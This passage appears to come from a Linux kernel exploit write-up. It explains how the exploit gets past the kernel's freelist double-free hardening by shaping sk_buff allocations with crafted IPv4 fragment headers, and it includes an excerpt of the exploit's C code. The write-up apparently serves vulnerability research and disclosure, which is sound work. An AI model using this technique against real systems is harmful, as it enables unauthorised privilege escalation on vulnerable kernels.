 In order to bypass `CONFIG_FREELIST_HARDENED`'s naive double-free detection in the SLAB freelists, we simply allocate an `struct sk_buff` from the freelist<sup>[1]</sup> before the double-free<sup>[[2](../exploit/lts-6.1.72/src/exploit.c#L362)]</sup>, which we free (append to the freelist)<sup>[[3](../exploit/lts-6.1.72/src/exploit.c#L368)]</sup> in between the double-free.

#### `df_ip_header` explanation

The variable `df_ip_header` is the content of the IPv4 packets sent to the kernel from userland by the exploit to shape the memory. It contains standardized IPv4 packet fields like `ip_v` (IP version used by the packet), `ip_hl` (IP header length divided by 4 bytes: in this case 20 bytes so `ip_hl = 20 / 4 = 5`), `ip_tos`, and `ip_ttl`. 

Other fields are cherrypicked for the exploit: 
- `ip_len`, `ip_id`, and `ip_off` (used for skb freelist shaping, see arbitrary skb free technique)
- `ip_p` (arbitrary protocol number: should be unused, as it is used to filter the double free packet in the nftables rule)
- `ip_src` and `ip_dst` (used to bypass corruption because `skb->dst` is corrupted due to double-free)

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	set_ipfrag_time(1);

	// ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
#if CONFIG_FLC_BYPASS
		set_ipfrag_time(1);

		// will expire naturally after 1 second
		df_ip_header.ip_id = 0x1334;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 8*2 + 8;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);
		alloc_intermed_buf_hdr(8, &df_ip_header);  // [1]

		// make sure df trigger packet doesn't get expired while waiting for skb5 to be freed
		set_ipfrag_time(999);
#endif
        // ... (do double-free)
    }
    
    // ... (more exploit stuff)
```